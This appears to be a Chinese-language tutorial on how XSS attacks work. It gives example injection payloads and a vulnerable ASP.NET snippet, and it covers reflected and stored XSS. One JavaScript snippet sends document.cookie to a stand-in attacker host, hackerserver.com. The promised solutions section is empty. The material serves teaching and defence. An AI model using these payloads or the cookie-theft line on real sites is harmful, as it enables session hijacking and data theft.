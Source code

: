 # xss攻击原理与解决方法

XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列 表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨 大的，是web安全的头号大敌。

## 攻击的条件 {#攻击的条件}

实施XSS攻击需要具备两个条件：

一、需要向web页面注入恶意代码；

二、这些恶意代码能够被浏览器成功的执行。

看一下下面这个例子：

```
<div id="el" style="background:url('javascript:eval(document.getElementById("el").getAttribute("code")) ')"

        code="var a = document.createElement('a');

        a.innerHTML= '执行了恶意代码';document.body.appendChild(a);

        //这这里执行代码

        "></div>
```

这段代码在旧版的IE8和IE8以下的版本都是可以被执行的，火狐也能执行代码，但火狐对其禁止访问DOM对象，所以在火狐下执行将会看到控制里抛出异常：document is not defined （document是没有定义的）

再来看一下面这段代码：

```
<div>

  <img src="/images/handler.ashx?id=<%= Request.QueryString["id"] %>" />

  </div>
```

相信很多程序员都觉得这个代码很正常，其实这个代码就存在一个反射型的XSS攻击，假如输入下面的地址：

```
http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="

最终反射出来的HTML代码：

    <div>

    <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
    </div>
```

也许您会觉得把ValidateRequest设置为true或者保持默认值就能高枕无忧了，其实这种情况还可以输入下面的地址达到相同的攻击效果：

```
http://www.xxx.com/?id=xx" οnerrοr="this.onload()" οnlοad="alert(/xss/)" x="
```

## 根据XSS攻击的效果可以分为几种类型 {#根据xss攻击的效果可以分为几种类型}

第一、XSS反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

第二、XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

## XSS攻击能做些什么 {#xss攻击能做些什么}

1.窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：

```
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```

2.读取用户未公开的资料，如果：邮件列表或者内容、系统的客户资料，联系人列表等等，如代码：

## 解决方法 {#解决方法}



